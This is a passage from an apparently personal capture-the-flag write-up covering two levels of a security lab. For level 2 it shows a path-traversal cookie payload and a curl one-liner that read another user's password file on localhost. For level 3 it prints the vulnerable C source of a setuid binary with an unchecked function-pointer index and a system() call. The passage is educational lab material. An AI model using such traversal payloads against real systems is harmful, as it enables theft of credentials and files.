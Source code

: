 ```
Cookie: user_details=../../home/level02/.password
```

Interestingly, it is also possible to solve this problem with just one instruction in the command line:

```
$ curl --user level01:$(cat /home/level01/.password) --digest -b "user_details=../../home/level02/.password" localhost:8002/level02.php
```

Where the flag **--digest** enables HTTP authentication, and the flags **-b** or **--cookie** let us determine the cookie to be sent.

Note: In the LiveCD this level is modified to use Python and [Flask](http://flask.pocoo.org/docs/0.10/). Luckily, I had some previous experience in Flask (check out my [Anti-Social Network]()) and it was pretty easy to spot that the Pyhton code does *exactly* the same thing as the one above.



---
## Level 3: Failure in Input Validation

The third level comes with another **setuid** binary with the purpose of modifying a string:

```
$ /levels/level03
 Usage: ./level03 INDEX STRING
 Possible indices:
 [0] to_upper [1] to_lower
 [2] capitalize [3] length
```

The C code is also given:

```

#define NUM_FNS 4

typedef int (*fn_ptr)(const char *);

int to_upper(const char *str)
{(...)}

int to_lower(const char *str)
{(...)}

int capitalize(const char *str)
{(...)}

int length(const char *str)
{(...)}

int run(const char *str)
{
 // This function is now deprecated.
 return system(str);
}

int truncate_and_call(fn_ptr *fns, int index, char *user_string)
{
 char buf[64];
 // Truncate supplied string
 strncpy(buf, user_string, sizeof(buf) - 1);
 buf[sizeof(buf) - 1] = '\0';
 return fns[index](buf);
}

```